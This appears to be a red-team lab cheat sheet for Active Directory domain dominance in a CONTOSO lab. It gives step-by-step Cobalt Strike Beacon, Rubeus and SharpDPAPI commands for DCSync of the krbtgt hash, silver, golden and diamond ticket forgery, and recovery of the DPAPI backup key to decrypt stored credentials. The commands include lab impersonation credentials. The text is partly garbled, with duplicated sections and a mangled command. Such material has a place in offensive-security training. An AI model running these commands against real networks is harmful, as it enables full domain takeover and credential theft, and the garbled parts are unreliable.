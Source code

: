 # Attack

### DCSync <a href="#dcsync" id="dcsync"></a>

From the medium integrity Beacon:

1. Impersonate a domain admin.
   1. `make_token CONTOSO\dyork Passw0rd!`
2. Run dcsync to obtain the domain's krbtgt hash.
   1. `dcsync contoso.com CONTOSO\krbtgt`
3. To obtain the hash of a computer account, remember to include the $ in the username.
   1. `dcsync contoso.com CONTOSO\lon-db-1$`
4. Drop the impersonation.
   1. `rev2self`

### Silver Ticket <a href="#silver-ticket" id="silver-ticket"></a>

1.  On the Attacker Desktop, use the AES256 hash of _lon-db-1_ to forge a silver ticket for the cifs service.

    ```batch
    C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
    ```

From the high-integrity Beacon:

1. Create a new sacrificial logon session for the impersonated user.
   1. make\_token CONTOSO\Administrator FakePass
2.  Inject the silver ticket into this logon session.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]
    ```
3. Verify the ticket has been injected.
   1. `run klist`
4. List the target's C$ drive.
   1. `ls \\lon-db-1\c$`
5. Purge the ticket cache.
   1. `run klist purge`

### Golden Ticket <a href="#golden-ticket" id="golden-ticket"></a>

1.  On the Attacker Desktop, use the krbtgt's AES256 hash to forge a golden ticket for the default domain administrator.

    ```batch
    C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
    ```
2.  Inject the golden ticket into the sacrificial logon session on the high-integrity Beacon.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]
    ```
3. Verify the ticket has been injected.
   1. `run klist`
4. List the target's C$ drive.
   1. `ls \\lon-dc-1\c$`
5. Purge the ticket cache.
   1. `run klist purge`

&#x20;

### Golden Ticket <a href="#golden-ticket" id="golden-ticket"></a>

1.  On the Attacker Desktop, use the krbtgt's AES256 hash to forge a golden ticket for the default domain administrator.

    ```batch
    C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
    ```
2.  Inject the golden ticket into the sacrificial logon session on the high-integrity Beacon.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]
    ```
3. Verify the ticket has been injected.
   1. r`urun klist`
4. List the target's C$ drive.
   1. `ls \\lon-dc-1\c$`
5. Purge the ticket cache.
   1. `run klist purge`

&#x20;

### Diamond Ticket <a href="#diamond-ticket" id="diamond-ticket"></a>

1.  From the medium-integrity Beacon, use the krbtgt's AES256 hash to create a diamond ticket for the default domain administrator.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:[HASH] /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap
    ```
2.  Inject the golden ticket into the sacrificial logon session on the high-integrity Beacon.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]
    ```
3. Verify the ticket has been injected.
   1. `run klist`
4. List the target's C$ drive.
   1. `ls \\lon-dc-1\c$`&#x20;

### DPAPI Backup Key <a href="#dpapi-backup-key" id="dpapi-backup-key"></a>

### DPAPI Backup Key <a href="#dpapi-backup-key" id="dpapi-backup-key"></a>

1. From the medium-integrity Beacon, impersonate a domain admin again.
   1. `make_token CONTOSO\dyork Passw0rd!`
2.  Recover the domain's backup DPAPI key.

    ```batch
    execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey
    ```
3. Drop the impersonation.
   1. rev2self
4.  Use the key to decrypt credentials stored in the Credential Manager.

    ```batch
    execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:[KEY]
    ```
